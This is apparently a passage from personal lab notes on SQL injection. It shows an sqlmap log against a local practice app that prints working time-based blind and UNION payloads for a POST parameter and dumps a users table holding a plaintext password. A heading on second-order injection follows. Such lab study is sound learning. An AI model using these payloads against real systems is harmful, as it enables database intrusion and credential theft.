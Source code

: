 ```python
[04:01:07] [INFO] POST parameter 'product' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'product' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 282 HTTP(s) requests:
---
Parameter: product (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: product=test' AND (SELECT 3911 FROM (SELECT(SLEEP(5)))nzEu) AND 'HIdI'='HIdI

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: product=test' UNION ALL SELECT CONCAT(0x71626a7671,0x504a617a447a5971434e677963424f4e5a4f64456b6d615858726f7678795757706e786a4743594b,0x71717a7171),NULL,NULL,NULL-- -
---
[04:01:17] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12
[04:01:17] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[04:01:17] [INFO] fetching current database
[04:01:17] [INFO] fetching columns for table 'injection0x03_users' in database 'bb-labs'
[04:01:17] [INFO] fetching entries for table 'injection0x03_users' in database 'bb-labs'
Database: bb-labs
Table: injection0x03_users
[1 entry]
+------------------+----------+
| password         | username |
+------------------+----------+
| onigirigadaisuki | takeshi  |
+------------------+----------+

[04:01:17] [INFO] table '`bb-labs`.injection0x03_users' dumped to CSV file '/home/cyber/.local/share/sqlmap/output/localhost/dump/bb-labs/injection0x03_users.csv'
[04:01:17] [INFO] fetched data logged to text files under '/home/cyber/.local/share/sqlmap/output/localhost'

[*] ending @ 04:01:17 /2024-06-20/

                                                                                                                              
┌──(cyber㉿kali)-[~/Desktop/bugbounty]
└─$ 

```
==================================================================

# ==Second Order SQL Injection==

Theory behind second order attacks is that you carry out your attack and you deliver your payload but its not executing until later on
